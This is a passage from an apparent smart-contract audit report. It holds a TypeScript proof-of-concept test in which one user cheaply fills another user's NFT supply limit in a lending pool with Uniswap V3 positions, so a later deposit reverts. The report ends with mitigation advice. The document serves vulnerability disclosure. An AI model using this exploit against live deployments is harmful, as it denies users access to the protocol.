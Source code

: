 ```ts
      .supplyERC721(
        nftPositionManager.address,
        tokenData,
        user1.address,
        0,
        {
          gasLimit: 12_450_000,
        }
      )
  );

  expect(await nUniswapV3.balanceOf(user2.address)).to.eq(0);
  expect(await nUniswapV3.balanceOf(user1.address)).to.eq(totalTokens);

  // user1 tries to supply another UniV3 NFT but fails, since the limit has
  // already been reached.
  await fund({ token: dai, user: user1, amount: userDaiAmount });
  await fund({ token: weth, user: user1, amount: userWethAmount });
  nft = nftPositionManager.connect(user1.signer);
  await mintNewPosition({
    nft: nft,
    token0: dai,
    token1: weth,
    fee: fee,
    user: user1,
    tickSpacing: tickSpacing,
    lowerPrice,
    upperPrice,
    token0Amount: userDaiAmount,
    token1Amount: userWethAmount,
  });

  await expect(
    pool
      .connect(user1.signer)
      .supplyERC721(
        nftPositionManager.address,
        [{ tokenId: totalTokens + 1, useAsCollateral: true }],
        user1.address,
        0,
        {
          gasLimit: 12_450_000,
        }
      )
  ).to.be.revertedWith("120");  //ntoken balance exceed limit.

  expect(await nUniswapV3.balanceOf(user1.address)).to.eq(totalTokens);

  // The cost of the attack was low. user2's balance of DAI and WETH
  // hasn't changed, only the rounding error of Uniswap V3 was subtracted.
  expect(await dai.balanceOf(user2.address)).to.eq("9999999999999999999996");
  expect(await weth.balanceOf(user2.address)).to.eq("9999999999999999996");
});
```
## Tools Used
Manual review
## Recommended Mitigation Steps
Consider disallowing supplying Uniswap V3 NFTs that have 0 liquidity and removing the entire liquidity from tokens that have already been supplied. Setting a minimal required liquidity for a Uniswap V3 NFT will make this attack more costly, however it won't remove the attack vector entirely.